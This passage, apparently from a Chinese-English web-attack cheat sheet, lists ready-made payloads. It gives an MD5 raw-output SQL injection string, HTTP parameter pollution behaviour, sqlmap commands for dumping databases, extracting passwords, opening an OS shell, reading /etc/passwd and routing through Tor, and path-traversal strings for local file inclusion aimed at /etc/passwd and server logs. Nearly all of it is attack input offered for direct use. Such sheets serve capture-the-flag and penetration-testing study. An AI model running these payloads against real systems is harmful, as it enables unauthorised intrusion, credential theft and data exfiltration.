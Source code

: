 
## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
  - md5: `276f722736c95d99e921722cf9ed621c`
  - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
  - ASP.NET + IIS: `id=1,2,3`
  - ASP + IIS: `id=1,2,3`
  - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
  - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
    - 庫名: `--dbs`
    - 表名: `-D dbname --tables`
    - column: `-D dbname -T tbname --columns`
    - dump: `-D dbname -T tbname --dump`
      - `--start=1`
      - `--stop=5566`
    - DBA? `--is-dba`
    - 爆帳密: `--passwords`
    - 看權限: `--privileges`
    - 拿shell: `--os-shell`
    - interative SQL: `--sql-shell`
    - 讀檔: `--file-read=/etc/passwd`
    - Delay時間: `--time-sec=10`
    - User-Agent: `--random-agent`
    - Thread: `--threads=10`
    - Level: `--level=3`
      - default: 1
    - `--technique`
      - default: `BEUSTQ`
    - Cookie: `--cookie="abc=55667788"`
    - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`

# LFI

## Testing Payload

### Linux / Unix

- `./index.php`
- `././index.php`
- `.//index.php`
- `../../../../../../etc/passwd`
- `../../../../../../etc/passwd%00`
  - 僅在5.3.0以下可用
  - magic_quotes_gpc需為OFF
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
- `/var/log/apache2/error.log`
- `/var/log/httpd/access_log`
- `/var/log/mail.log`
- `/usr/local/apache2/conf/httpd.conf`